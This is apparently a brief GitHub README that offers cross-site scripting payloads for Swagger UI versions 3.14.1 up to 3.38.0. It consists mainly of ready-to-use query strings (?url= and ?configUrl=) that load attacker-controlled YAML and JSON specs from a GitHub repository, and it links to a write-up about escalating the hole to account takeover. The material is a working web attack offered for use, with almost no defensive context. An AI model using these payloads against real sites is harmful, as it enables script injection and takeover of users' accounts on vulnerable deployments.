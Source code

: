 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
